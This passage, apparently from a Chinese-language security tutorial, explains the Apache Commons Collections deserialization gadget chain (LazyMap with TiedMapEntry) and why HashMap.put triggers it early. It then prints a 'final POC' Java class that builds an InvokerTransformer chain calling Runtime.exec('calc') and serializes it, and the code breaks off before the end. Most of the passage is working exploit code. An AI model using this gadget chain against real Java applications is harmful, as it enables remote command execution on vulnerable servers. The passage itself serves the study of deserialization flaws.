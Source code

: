 然而运行发现并没有弹出计算器。

调试发现ChainedTransformer的transform方法，本该传进去的trainsformerChain变成了Troy3e：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231124181110.png)

其实，这个关键点就出在 expMap.put(tme, "valuevalue"); 这个语句里面。
HashMap的put方法中，也有调用到 hash(key) ：  

```java
public V put(K key, V value) {
	return putVal(hash(key), key, value, false, true);
}
```

这⾥就导致 LazyMap 这个利用链在这里被调用了⼀遍，因为我前⾯用了 fakeTransformers ，所以此时并没有触发命令执⾏，但实际上也对我们构造Payload产生了影响。

我们的解决方法也很简单，只需要将keykey这个Key，再从outerMap中移除即可： outerMap.remove("keykey") 。  

最终POC：

```java
import com.sun.net.httpserver.Filter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, null}),
                new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"Troy3e");
        HashMap hashMap = new HashMap();
        hashMap.put(tme,"Troy3eTroy3e");
        outerMap.remove("Troy3e");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();

```